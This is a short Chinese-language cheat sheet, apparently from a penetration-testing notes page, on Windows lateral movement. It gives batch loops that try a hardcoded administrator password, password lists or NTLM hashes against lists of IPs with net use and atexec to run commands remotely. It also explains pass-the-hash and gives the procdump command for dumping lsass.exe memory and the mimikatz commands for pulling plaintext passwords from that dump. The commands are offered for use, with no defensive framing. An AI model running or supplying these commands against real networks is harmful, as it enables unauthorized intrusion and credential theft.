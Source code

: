 

### 自带命令

批量检测`ip`对应明文连接

```
FOR /F %%i in (ips.txt) do net use \%i\ipc$ "admin!@#45" /user:administrator
```

批量检测 `IP` 对应明文回显版

```
FOR /F %i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%i whoami
```

批量检测明文对应 `IP`回显版

```
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami
```

批量检测`HASH` 对应 `IP` 回显版

```
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami
```



### HASH传递

很多情况下使用工具获取明文密码是不允许的：

- `Windows2012`以上版本**默认关闭`wdigest`**,攻击者无法从内存中获取明文密码
- Windows2012以下版本若安装**KB2871997补丁**，会导致无法获取明文密码

`Windows`系统**LM Hash**及**NTLM Hash**加密算法，个人系统在Windows vista后，服务器系统在`Windows 2003`以后，认证方式均为**NTLM Hash**。

这个在`mimikatz`上可以发现有两个加密算法，一个是`LM Hash`，另外一个是`NTLM Hash`（基本只用关注这个）

获取`windows`哈希密码的两个工具：[Pwdump7](http://www.uzzf.com/soft/47479.html)、[QuarksPwdump](https://www.webshell.cc/4625.html)

#### Procdump

[Procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)是官方软件，可以用于获取目标主机的用户信息

`Mimikatz`属于第三方软件，上传到目标主机有可能被杀毒软件查杀

由于`Procdump`获取信息的文件不可读，所以可以使用本地的的`Mimikatz`打开`Procdump`获取的用户信息

生成信息命令：

```
procdump -accepteula -ma lsass.exe lsass.dmp
```

`Mimikatz`导入文件并获取密码：

```
sekurlsa::minidump lsass.dmp   #导入文件
sekurlsa::logonPasswords full  #获取密码
```
